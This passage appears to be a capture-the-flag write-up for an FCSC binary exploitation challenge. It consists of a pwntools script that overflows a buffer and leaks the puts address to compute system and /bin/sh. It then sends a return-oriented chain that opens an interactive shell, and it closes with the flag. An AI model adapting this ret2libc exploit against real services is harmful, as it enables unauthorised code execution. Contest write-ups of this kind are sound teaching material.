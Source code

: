```
r.recvuntil(">>> ")

# ret2main
pld = b"A"*40
pld += p64(saved_rip)
pld += p64(0xdeadbeefcafebabe) + p64(addr_main)*3

# leak avec 7 `A`
r.sendline(pld)
r.recvuntil(">>> ")
r.sendline("A"*7)
r.recv(7), r.recv(8)
puts = u64(r.recv(6) + b"\x00"*2) - 0xa7

# https://libc.blukat.me/?q=_IO_printf%3A0x7fbc57249cf0%2C_IO_puts%3A0x7fbc57264990&l=libc6_2.19-18%2Bdeb8u10_amd64
system = puts - 0x2a500
bin_sh = puts + 0xf7a58

print(f"puts @ {hex(puts)}")
print(f"system @ {hex(system)}")
print(f"bin_sh @ {hex(bin_sh)}")

r.recvuntil(">>> ")
r.sendline(b"A"*40 + p64(pop_rdi) + p64(bin_sh) + p64(system))

r.interactive()
```

# flag : `FCSC{3bf7861167a72f521dd70f704d471bf2be7586b635b40d3e5d50b989dc010f28}`
